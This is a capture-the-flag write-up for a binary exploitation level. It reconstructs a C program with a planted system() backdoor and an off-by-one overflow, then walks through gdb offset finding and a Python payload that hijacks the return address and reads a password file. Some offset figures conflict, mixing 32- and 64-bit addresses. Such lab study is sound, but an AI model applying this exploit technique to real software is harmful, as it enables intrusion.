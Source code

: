 # Level09

## Answer
Our C source code generates an assembly code similar to the original binary. Compile it as follows:
> The differences are purely optimizations and do not change the behavior of the program.
```
gcc -fno-stack-protector -fpie -pie source.c
```

Let's take a look at the source code:
```c
// gcc -fno-stack-protector -fpie -pie source.c
#include <stdio.h>
#include <string.h>

typedef struct s_message
{
    char msg[140];
    char user[40];
    int len;
} t_message;

void secret_backdoor()
{
    char buffer[128]; // -0x80(%rbp)

    fgets(buffer, 128, stdin);
    system(buffer);
}

void set_msg(t_message *message)
{
    char buffer[1024]; // -0x400(%rbp)
    memset(buffer, 0, 1024);

    puts(">: Msg @Unix-Dude");
    printf(">>: ");

    fgets(buffer, 1024, stdin);

    strncpy(message->msg, buffer, message->len);
}

void set_username(t_message *message)
{
    char buffer[128]; // -0x80(%rbp)
    int i; // -0x4(%rbp)

    memset(buffer, 0, 128);

    puts(">: Enter your username");
    printf(">>: ");

    fgets(buffer, 128, stdin);

    for (i = 0; i <= 40 && buffer[i]; i++)
        message->user[i] = buffer[i];
    printf(">: Welcome, %s", message->user);
}

void handle_msg()
{
    t_message msg; // -0xc0(%rbp)
    memset(msg.user, 0, 40); // -0xc0(%rbp) + 0x8c
    msg.len = 140; // -0xc(%rbp)

    set_username(&msg);
    set_msg(&msg);

    puts(">: Msg sent!");
}

// slight differences in assembly
int main()
{
    puts("--------------------------------------------\n|   ~Welcome to l33t-m$n ~    v1337        |\n--------------------------------------------");
    // extra eax to 0
    handle_msg();
    return 0;
}
```

Let's focus on the `set_username` function.  It reads input using the `fgets` function, which is known to be safe has it has a mechanism to limit the number of bytes read. However, we're copying the `buffer` into `message->user` up to 41 characters, even though `message->user` is only 40 characters long. This will allow us to overflow the buffer and overwrite `message->len`. Let me elaborate:
```c
typedef struct s_message
{
    char msg[140];
    char user[40];
    int len;
} t_message;
```

So `user[41]` will actually write 1 byte into `message->len` which will allow us to set `message->len` up to 255. We can use this to overflow the `message->msg` buffer in the `set_msg` function, as it uses `strncpy` to copy the input into `message->msg` up to `message->len` bytes. This will allow us to overwrite the return address of the `handle_msg` function. Instead of doing a `ret2libc`, we can use the `secret_backdoor` function's address to execute a shell command.

So let's find the offset needed to overwrite the return address:
```bash
(gdb) b *handle_msg+112 # Breaking before leave
Breakpoint 1 at 0x930

(gdb) r # Run the program
Starting program: /home/users/level09/level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: hi
>: Welcome, hi
>: Msg @Unix-Dude
>>: hello
>: Msg sent!

Breakpoint 1, 0x0000555555554930 in handle_msg ()

(gdb) info registers # Check esp and ebp addresses
[...]
rbp            0x7fffffffe5c0   0x7fffffffe5c0
rsp            0x7fffffffe500   0x7fffffffe500
[...]
```

By calculating the difference between `esp` and `ebp` we can see that the stack is allocated 192 bytes:
```
0xbffff728 - 0xbffff6e0 = c0 (192 in decimal)
```	

Furthermore, we can see that our buffer is located at `-0xc0(%rbp)`. Since our buffer is located at `ebp - 192`, we only have to write 76 bytes before reaching `ebp`.
> In this case we don't have to take the bytes between `esp` and `ebp` into account because the offset of our buffer is relative to `ebp`. `ebp` is the base pointer, whom's value is set at the beginning of the function. So the offset of our buffer will always be the same. Whereas `esp` is the stack pointer, whom's value changes during the execution of the program.

Since our goal is to overflow the stack until we reach the return address of the main function, we need to add another 8 bytes to go from `ebp` to `ebp + 8` (the return address). So a total of 200 bytes (192 + 8).
> 8 bytes because we are in a 64-bit system

Anything written beyond those 200 bytes will be treated as an address (only the 8 next bytes) and jumped to by the `ret` instruction of the `main` function.

Alright, let's get the address of the `secret_backdoor` function:
```bash
(gdb) info function secret_backdoor
All functions matching regular expression "secret_backdoor":

Non-debugging symbols:
0x000000000000088c  secret_backdoor
```

We, now, only need to find a value that will be written into `message->len` to overflow the `message->msg` buffer. Since our padding is 200 bytes, and we need to write 8 bytes for the address of the `secret_backdoor` function, we, therefore, need to write 208 into `message->len`. Which is `0xd0` in hexadecimal.

Alright, let's craft our payload:
```bash
40 characters for the username + 1 byte for the overflow of len + padding + address of secret_backdoor

'\x90' * 40 + '\xd0' + '\n' + '\x90' * 200 + '\x00\x00\x55\x55\x55\x55\x48\x8c'
```
> We need the `\n` for the input to be sent into the first `fgets` so that the following input is sent to the second `fgets` and not lost in the first one.

Let's run it:
```bash
level09@OverRide:~$ (python -c "print('\x90' * 40 + '\xd0' + '\n' + '\x90' * 200 + '\x00\x00\x55\x55\x55\x55\x48\x8c'[::-1])" && cat) | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�>: Msg @Unix-Dude
>>: >: Msg sent!
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```

We are now end! The project is over, congratulations!